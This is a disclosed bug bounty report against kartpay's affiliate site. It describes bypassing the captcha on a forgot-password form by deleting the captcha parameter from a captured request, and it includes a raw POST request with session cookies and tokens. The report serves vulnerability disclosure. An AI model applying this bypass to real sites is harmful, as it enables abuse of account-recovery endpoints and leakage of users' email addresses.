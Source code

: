 # bypass captcha in the form forgot password

## Report Details
- **Report ID**: 700075
- **URL**: https://hackerone.com/reports/700075
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-09-22T20:48:02.027Z
- **Disclosed**: 2019-11-14T06:56:09.799Z

## Reporter
- **Username**: hami
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kartpay

## Vulnerability Information
## Summary:
In this issue I can bypass Captcha Protection in the Forgot Password form.

## Browsers Verified In:
 firefox

url: https://affiliate.kartpay.com/
url vulnerable: https://affiliate.kartpay.com/forgot_password
## Steps To Reproduce:
1-Enter your email in the forgot password parameter.
2-complet captcha
3-Capture the request in the proxy.
4-delete captcha parameter from request.
5-check response

##Request:

POST /forgot_password HTTP/1.1
Host: affiliate.kartpay.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://affiliate.kartpay.com/
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6IjhjXC8zMFBQT3VFZW5VS2ZHSmVlRk1RPT0iLCJ2YWx1ZSI6Img2SjVsNHdhclVnaEI4dThmMGlWQXJVWHdWeGl1MjdTTFBKZkpiSCtsT2pQYld0Y0pvWURDa0RuNE9VQVU3NkkiLCJtYWMiOiI5ZDI0ZTE5YmQ1OWJhMmUwN2RjYzkzNjVhYTZiZDk1MzIzMjgyNzhjOWEyMmYwYzBmOGExZmEyNGE4MmU1YzIxIn0%3D; laravel_session=eyJpdiI6Incwcjc5S3JIbVpCSThoUWpiSmwwXC9RPT0iLCJ2YWx1ZSI6ImpZdGYrXC96cnBUS1oxb0FkRjA5anpiN013aTFLWFV5NlgzUG13SkpKRGVBT0NvYnpleEpZVWNmMWN6WitcLzF2QiIsIm1hYyI6ImUxMWQ4MjVlMzBjMDdkYWUxOWE2Zjk5OTc1OTFkMjBmNzJkNDkxMzZiY2RiOWJmMjA4MzVmNGQzZTZiMzc5ZjMifQ%3D%3D
Upgrade-Insecure-Requests: 1

_token=hIfAxen5jTB2IcWjjpkxAjb1j9Ro8nPtyhveLdoT&email=test%40gmail.com

##Response:
you can see it in the photo.

## Impact

email leakage

## Attachments
- after_bypass.png
